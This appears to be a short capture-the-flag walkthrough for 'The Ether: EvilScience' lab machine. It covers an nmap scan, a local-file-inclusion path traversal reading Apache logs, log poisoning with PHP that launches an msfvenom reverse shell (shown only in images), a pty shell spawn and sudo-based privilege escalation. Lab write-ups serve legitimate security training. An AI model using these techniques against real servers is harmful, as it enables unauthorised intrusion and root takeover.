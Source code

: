 

Recon part

host scan:

	nmap -sV -A -Pn 192.168.187.128 -p-

	Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-17 12:51 EST
	Nmap scan report for 192.168.187.128
	Host is up (0.0010s latency).
	Not shown: 65533 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 12:09:bc:b1:5c:c9:bd:c3:ca:0f:b1:d5:c3:7d:98:1e (RSA)
	|_  256 de:77:4d:81:a0:93:da:00:53:3d:4a:30:bd:7e:35:7d (ECDSA)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: The Ether
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 8.46 seconds



go to web server and find LFI for access apache logs : http://192.168.187.128/?file=../log/access.log#top

As LFI works over a php engine it is a big change that php code injected inside log file will be processed by php:

so:
1. intercept any request to web server
2. inject php code inside


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The_Ether_EvilScience/inject.jpg)


where "shell" file is generated reverse shell ( generated by msfvenom )




than refresh http://192.168.187.128/?file=../log/access.log#top in browser and php code executed


privilege escalation

spawn to tty shell : python -c 'import pty; pty.spawn("/bin/sh")'    ( see all options https://netsec.ws/?p=337)
see what files can be executed under root user from www-data : sudo -l

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The_Ether_EvilScience/priv1.png)


got root command execution by CLI injection ( thank Julia team member , I really tried over ssh username injection :(   ) : 

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The_Ether_EvilScience/priv2.png)


got flag in /root dir inside picture in base64 encoding:

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The_Ether_EvilScience/flag1.png)


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The_Ether_EvilScience/flag2.png)

